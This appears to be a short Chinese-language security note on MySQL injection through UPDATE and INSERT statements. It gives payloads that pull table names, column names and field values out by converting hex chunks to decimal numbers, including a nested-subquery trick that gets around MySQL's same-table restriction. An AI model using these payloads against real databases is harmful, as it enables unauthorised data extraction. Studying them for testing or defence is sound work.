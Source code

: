 **参考：**
- https://osandamalith.com/2017/02/08/mysql-injection-in-update-insert-and-delete/

在mysql中字符串等于0，通过将数据->16禁止->10进制
在只有一个表的情况下 利用update,insert进行表的信息获取

**提取表名：**
```SQL
select conv(hex(substr((select table_name from information_schema.tables where table_schema=schema() limit 0,1),1 + (n-1) * 8, 8*n)), 16, 10);
```
**提取列名：**
```sql
select conv(hex(substr((select column_name from information_schema.columns where table_name=’Name of your table’ limit 0,1),1 + (n-1) * 8, 8*n)), 16, 10);
```

在update和insert中在子查询中使用了同表的数据，会报错：
![](/images/19-2-9_SQL_思路1.png)
可以这样操作：
```
update users set username = 'j7ur8'| conv(hex(substr((select username from (select * from users where id=1) as x limit 0,1 ) ,1 + (1-1) * 8, 8 * 1)),16, 10) where id=1;
```
![](/images/19-2-9_SQL_思路2.png)

